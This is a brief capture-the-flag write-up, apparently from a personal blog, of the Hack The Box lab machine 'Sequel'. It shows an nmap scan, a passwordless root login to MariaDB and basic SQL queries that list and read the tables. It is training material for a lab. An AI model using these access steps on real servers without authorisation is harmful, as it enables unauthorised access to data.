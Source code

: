 ```yaml
---
layout: post
title: 00 - Sequel
date: 2022-08-20
categories: [Writeups,HTB,Very_Easy,Sequel]
tags: [SQL,MariaDB]
---
```

**Title:** 00 - Sequel
**Tags:** [[Very Easy]]
**Topics:** #SQL #MariaDB 

---
# 00 - Sequel
# Intro
| Dificulty | OS | Start Date | End Date |
|---|---|---|---|
| Very Easy | Linux | 17/05/2022 | 17/05/2022 |


# Thought process
1. View running services with `nmap`.
2. LogIn to MariaDB using root (Doesn't need password)
3. `Show databases` and `use` one.
4. `Select` content of the tables.


# Resolution
After seeing that the machine had a MariaDB server, I tried to login as root (by default it has no password).
> LogIn to MariaDB
```bash
$ mysql -h @IP -u root
```

I listed the Databases and Selected the one call it "htb"
> Show Databases and Use it
```sql
SHOW databases; /* */ USE dName;
```

Once inside a Database I listed the Tables and made a simple SELECT.
> Show Tables and Simple Select
```sql
SHOW tables; /**/ SELECT * FROM tNAME;
```